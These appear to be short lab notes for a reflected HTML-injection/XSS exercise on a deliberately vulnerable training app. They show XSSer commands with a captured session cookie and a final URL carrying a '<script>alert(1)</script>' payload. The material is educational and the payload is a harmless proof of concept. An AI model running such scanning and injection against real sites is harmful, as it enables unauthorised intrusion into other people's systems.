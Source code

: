 

Select HTML Injection - Reflected (GET) exercise. Enter any value to the form for e.g hello and click on "Go"


: http://192.158.102.3/htmli_get.php?firstname=hello&lastname=hello&form=submit

- xsser --help

Refresh the webpage and copy the cookie Cookie: PHPSESSID=j278tohghcg7lbr220uhf4rg22; security_level=0

- xsser --url “http://192.158.102.3/htmli_get.php?firstname=XSS&lastname=hello&form=submit” --cookie=”PHPSESSID=j278tohghcg7lbr220uhf4rg22; security_level=0”

- xsser --url “http://192.158.102.3/htmli_get.php?firstname=XSS&lastname=hello&form=submit” --cookie=”PHPSESSID=j278tohghcg7lbr220uhf4rg22; security_level=0” --Fp “”

LAST PAYLOAD AFTER FINDING XSS

“http://192.158.102.3/htmli_get.php?firstname=XSS&lastname=hello&form=submit” --cookie=”PHPSESSID=j278tohghcg7lbr220uhf4rg22; security_level=0” --Fp "<script> alert(1)</script>"

Turn off burp suite intercept and open final attack link in firefox browser. URL: http://192.158.102.3/htmli_get.php?firstname=%3Cscript%3Ealert%281%29%3C%2Fscript%3E &lastname=hello&form=submit



